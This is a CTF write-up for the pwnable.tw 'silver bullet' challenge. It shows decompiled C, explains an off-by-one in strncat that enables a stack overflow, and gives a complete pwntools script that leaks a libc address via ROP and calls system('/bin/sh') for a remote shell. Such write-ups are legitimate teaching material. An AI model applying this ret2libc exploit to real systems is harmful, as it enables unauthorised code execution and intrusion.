


+++
title = "pwnable.tw - silver bullet"
date = 2020-02-01T22:31:07.835Z
updated = 2020-02-04T19:12:43.206Z
aliases = ["/posts/5d0814ab8487900bf40e47d9-pwnabletw-silver-bullet"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'return-oriented-programming', 'pwntools']
categories = ["ctf-writeups"]
+++

# Challenge
> Please kill the werewolf with silver bullet!
>
> `nc chall.pwnable.tw 10103`


We are also provided a binary and the libc used on the server.

# Solution
When running the binary, we can see that we have four options:



The provided binary was not stripped, so reversing was easy with Ghidra.
```c
void create_bullet(bullet *bullet)
{
  size_t size;
  
  if (bullet->description[0] == '\0') {
    printf("Give me your description of bullet :",0);
    read_input((char *)bullet,0x30);
    size = strlen((char *)bullet);
    printf("Your power is : %u\n",size);
    bullet->power = size;
    puts("Good luck !!");
  }
  else {
    puts("You have been created the Bullet !");
  }
  return;
}
```

<!-- more -->

The `create_bullet` function simply reads in 48 (0x32) bytes. Then, the power of the bullet is set to the length of the 
input. Finally, both the power and the input are store in a struct.

&nbsp;

I defined ` bullet` as the following struct:
```c
struct bullet {
    char[48] description;
    uint power;
}
```

```c
void power_up(bullet *bullet)

{
  size_t new_power;
  uint power;
  char input_buf [48];
  
  memset(input_buf,0,0x30);
  if (bullet->description[0] == '\0') {
    puts("You need create the bullet first !");
  }
  else {
    if (bullet->power < 0x30) {
      printf("Give me your another description of bullet :");
      read_input(input_buf,0x30 - bullet->power);
      strncat((char *)bullet,input_buf,0x30 - bullet->power);
      new_power = strlen(input_buf);
      power = bullet->power + new_power;
      printf("Your new power is : %u\n",power);
      bullet->power = power;
      puts("Enjoy it !");
    }
    else {
      puts("You can\'t power up any more !");
    }
  }
  return;
}
```
The `power_up` function reads another 48 bytes as input, then it concatenates it to the stored description and updates 
the power of the bullet. However, there is a hard-to-notice issue with this code. 
[strncat(dest, src, n)](https://linux.die.net/man/3/strncat) writes `n+1` bytes to the destination buffer. The last byte 
is the terminating null byte. If we were to give 48 bytes as input to power_up, then it would overwrite the power of the 
bullet. Now, we can write upto 48 bytes directly onto the stack, and we can use return-oriented-programming to leak a 
libc address and call `system`.

# Script
```python
from pwn import *

elf = ELF('./silver_bullet')
libc = ELF('./libc_32.so.6')

context.binary = elf

r = remote('chall.pwnable.tw', 10103)


def skip_menu():
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')


def create_bullet(d):
    r.recvuntil(' :')
    r.write('1')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()


def power_up(d):
    r.recvuntil(' :')
    r.write('2')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()


def beat():
    r.recvuntil(' :')
    r.write('3')


rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('main')

print(rop.dump())

create_bullet('A' * 0x2F)
power_up('A')
power_up('A' * 7 + str(rop))

beat()
skip_menu()
beat()

r.recvuntil('!!\x0a')
ADDR_PUTS = u32(r.recv(4))

LIBC_BASE = ADDR_PUTS - libc.symbols['puts']
ADDR_BINSH = libc.search('/bin/sh').next() + LIBC_BASE
ADDR_SYSTEM = libc.symbols['system'] + LIBC_BASE

log.info('puts address: ' + hex(ADDR_PUTS))
log.info('Libc base address: ' + hex(LIBC_BASE))
log.info('System address: ' + hex(ADDR_SYSTEM))
log.info('`/bin/sh` address: ' + hex(ADDR_BINSH))

rop = ROP(elf)
rop.call(ADDR_SYSTEM, [ADDR_BINSH])

create_bullet('A' * 0x2F)
power_up('A')

power_up('A' * 7 + str(rop))

print(rop.dump())

beat()
skip_menu()
beat()

r.interactive()
```


